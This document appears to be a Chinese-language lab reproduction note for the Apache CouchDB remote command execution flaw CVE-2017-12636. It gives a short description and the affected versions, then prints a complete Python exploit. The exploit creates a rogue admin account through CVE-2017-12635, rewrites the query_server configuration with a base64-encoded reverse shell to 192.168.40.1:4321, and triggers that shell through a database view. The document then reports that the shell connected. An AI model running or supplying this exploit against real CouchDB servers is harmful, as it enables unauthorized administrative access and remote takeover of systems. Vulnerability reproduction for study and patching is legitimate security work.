 # Couchdb 任意命令执行漏洞（CVE-2017-12636）

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query_server，这个配置项在设计、执行view的时候将被运行。



> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1



> 利用工具

[EXP](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py)



> 漏洞复现

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。但命令执行需要登录用户触发，可以根据CVE-2017-12635创建管理员用户。

开启监听

![image-20221230222827381](../img/Apache CouchDB_CVE-2017-12636/image-20221230222827381.png)

修改EXP中target、command及对应版本version(1或2)

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.40.77:5984'
command = rb"""sh -i >& /dev/tcp/192.168.40.1/4321 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

执行脚本，成功反弹shell

![image-20221230223257231](../img/Apache CouchDB_CVE-2017-12636/image-20221230223257231.png)

